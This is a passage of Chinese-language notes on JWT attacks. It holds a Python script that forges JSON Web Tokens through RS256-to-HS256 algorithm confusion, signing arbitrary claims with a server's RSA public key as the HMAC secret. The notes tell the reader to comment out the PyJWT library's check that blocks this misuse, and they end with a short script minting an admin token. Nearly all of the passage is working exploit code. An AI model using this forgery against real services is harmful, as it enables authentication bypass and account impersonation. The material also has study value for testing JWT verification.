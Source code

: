 ```python
    sys.exit(1)
except: 
    pass

claims = jwt.decode(token, verify=False)
headers = jwt.get_unverified_header(token)
del headers['alg']
del headers['typ']

if args.no_vary:
    sys.stdout.write(jwt.encode(claims, pubkey, algorithm='HS256',
                headers=headers).decode('utf-8'))
    sys.exit(0)

lines = pubkey.rstrip('\n').split('\n')
if len(lines) < 3:
    sys.stderr.write('''Make sure public key is in a PEM format and
            includes header and footer lines!''')
    sys.exit(2)

hdr = pubkey.split('\n')[0]
ftr = pubkey.split('\n')[-1]
meat = ''.join(pubkey.split('\n')[1:-1])

sep = '\n-----------------------------------------------------------------\n'
for l in range(len(hdr), len(meat)+1):
    secret = '\n'.join([hdr] + filter(
        None,re.split('(.{%s})' % l, meat)) + [ftr])
    sys.stdout.write(
            '%s--- JWT signed with public key split at lines of length %s: ---%s%s' % \
            (sep, l, sep, jwt.encode(claims, secret, algorithm='HS256',
                headers=headers).decode('utf-8')))
    secret += '\n'
    sys.stdout.write(
            '%s------------- As above, but with a trailing newline: ------------%s%s' % \
            (sep, sep, jwt.encode(claims, secret, algorithm='HS256',
                headers=headers).decode('utf-8')))
```
## 注意，因为jwt模块更新后，防止滥用，加入了强校验，如果指定算法为 HS256 而提供 RSA 的公钥作为 key 时会报错，无法往下执行，需要注释掉 site-packages/jwt/algorithm.py 中的如下四行： ![image.png](/assets/pages_json_web_token_1614149893231_0.png){:height 161, :width 626}
## 再把整个python代码流程精简一下，使用以下脚本即可，public.pem 为 RSA 公钥：
##
```python 

import jwt


public = open('public.pem', 'r').read()
print(jwt.encode({"user":"admin","id":1}, key=public, algorithm='HS256'))
```
## ![image.png](/assets/pages_json_web_token_1614150037124_0.png)